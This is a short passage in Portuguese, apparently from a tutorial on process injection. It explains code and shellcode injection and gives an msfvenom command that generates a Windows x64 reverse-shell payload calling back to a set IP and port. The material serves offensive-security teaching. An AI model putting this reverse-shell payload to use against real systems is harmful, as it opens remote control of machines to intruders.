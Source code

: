O nosso *payload* pode ter uma infinidade de formatos, um dos mais clássicos é o *code injection*, onde um código, ou *shellcode* é injetado em um processo.

Para implementação e teste do *process injection*, além do descrito até o momento precisamos de um *payload*. A fim de poupar tempo, utilizarei o [MSFvenom](https://www.offsec.com/metasploit-unleashed/msfvenom/) para criar um *payload* de *reverse shell*.

```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.71.128 LPORT=8443 -f c
```

![](/img/posts/Pasted%20image%2020240807193944.png)
